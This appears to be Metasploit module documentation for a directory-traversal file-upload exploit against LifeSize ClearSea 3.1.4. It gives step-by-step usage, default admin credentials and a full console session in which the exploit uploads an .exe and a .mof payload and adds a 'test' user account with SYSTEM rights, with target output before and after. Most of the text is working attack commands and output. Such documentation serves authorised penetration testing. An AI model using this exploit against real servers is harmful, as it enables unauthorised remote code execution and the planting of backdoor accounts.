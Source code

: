 This module exploits a post-authentication directory traversal vulnerability on LifeSize ClearSea 3.1.4 server to gain remote code execution as SYSTEM user.

## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/windows/http/lifesize_clearsea_file_upload_rce`
  3. Set `RHOST`
  4. Set `ADMIN_USER` and `ADMIN_PASS` for valid admin credential to login
  5. Run `check` to check if remote host is vulnerable
  6. Set `payload` and required options
  7. Run `run` to execute the exploit
  8. The specified payload should be executed on target

## Options

  **ADMIN_USER**
  Admin user name. Default is admin.
  **ADMIN_PASS**
  Admin password. Default is admin.

## Scenarios

To execute specified payload:
```
msf > use exploit/windows/http/lifesize_clearsea_file_upload_rce
msf exploit(windows/http/lifesize_clearsea_file_upload_rce) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf exploit(windows/http/lifesize_clearsea_file_upload_rce) > set ADMIN_USER admin
ADMIN_USER => admin
msf exploit(windows/http/lifesize_clearsea_file_upload_rce) > set ADMIN_PASS admin
ADMIN_PASS => admin
msf exploit(windows/http/lifesize_clearsea_file_upload_rce) > check 

[*] Authenticating as user 'admin'...
[*] Successfully authenticated as user 'admin'
[+] 127.0.0.1:8800 The target is vulnerable.
msf exploit(windows/http/lifesize_clearsea_file_upload_rce) > set payload windows/exec 
payload => windows/exec
msf exploit(windows/http/lifesize_clearsea_file_upload_rce) > set CMD net user test password /add
CMD => net user test password /add
msf exploit(windows/http/lifesize_clearsea_file_upload_rce) > run 

[*] Authenticating as user 'admin'...
[*] Successfully authenticated as user 'admin'
[*] Generating .exe payload...
[*] Uploading .exe payload NkNlLuOTF.exe...
[*] Generating .mof file...
[*] Uploading .mof file OyMXijFO.mof...
[!] This exploit may require manual cleanup of 'NkNlLuOTF.exe' on the target
[!] This exploit may require manual cleanup of 'WBEM\MOF\GOOD\OyMXijFO.mof' on the target
[*] Exploit completed, but no session was created.
```

Target (before exploit ran):
```
C:\>type C:\ClearSea\etc\product.ini
type C:\ClearSea\etc\product.ini
[PRODUCT]
code=ClearSea
version=3.1.4
build=59125
port=8800

[MANAGEMENT]
servicesStartOrder=ClearSea-HttpAS
servicesStopOrder=ClearSea;ClearSea-HttpAS;ClearSea-PgSQL
controlPanelUrl=http://{host}:8800
sharedFolders.0.path=log
sharedFolders.0.fullAccess=false
rescueServerResourcesPath=webapps/rescueserver

[SECURITY]
restrictedTcpPorts=8800;3388;3389;139;445;8801;
restrictedUdpPorts=137;138;161;162;

[SNMP]
apiUrl=http://localhost:65356/processor

[HOUSEKEEPING]
cleanPattern.0.path=log/*
cleanPattern.0.maxAgeDays=32
cleanPattern.0.rmEmptySubdirs=false
cleanPattern.1.path=data/temp/*
cleanPattern.1.maxAgeDays=2
cleanPattern.1.rmEmptySubdirs=true
cleanPattern.2.path=data/record/*
cleanPattern.2.maxAgeDays=2
cleanPattern.2.rmEmptySubdirs=true
cleanPattern.3.path=log/heapDumps/*
cleanPattern.3.maxAgeDays=2
cleanPattern.3.rmEmptySubdirs=false

[TROUBLESHOOTING]
collectPattern.0.path=log/*{date}*
collectPattern.1.path=cfg/*
collectPattern.2.path=bin/ClearSea.lic
collectPattern.3.path=etc/product.ini
collectPattern.4.path=log/out.log
collectPattern.5.path=log/err.log
collectPattern.6.path=log/cdr/*{date}*
collectPattern.7.path=data/database/data/*.err
collectPattern.8.path=log/dmp/*{date}*
collectPattern.9.path=data/backup/*.sql
collectPattern.10.path=log/internal/*{date}*
collectPattern.11.path=log/heapDumps/*

C:\>net user
net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            ClearSea                 console                  
Guest                    restore                  
The command completed with one or more errors.

```

Target (after exploit ran)
```
C:\>net user
net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            ClearSea                 console                  
Guest                    restore                  test                     
The command completed with one or more errors.

```
